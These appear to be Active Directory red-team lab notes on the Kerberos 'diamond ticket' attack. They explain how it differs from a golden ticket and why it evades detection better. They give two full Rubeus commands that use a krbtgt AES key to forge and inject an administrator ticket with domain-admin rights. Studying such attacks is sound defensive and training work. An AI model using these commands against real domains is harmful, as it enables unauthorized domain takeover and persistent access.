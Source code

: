 - A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account. 
- Golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack. 
- Once again, the persistence lifetime depends on krbtgt account. 
-  A diamond ticket is more opsec safe as it has: 
-  Valid ticket times because a TGT issued by the DC is modified 
- In golden ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.
- We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too): 
```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

-  We could also use /tgtdeleg option in place of credentials in case we have access as a domain user: 
```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorpdc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
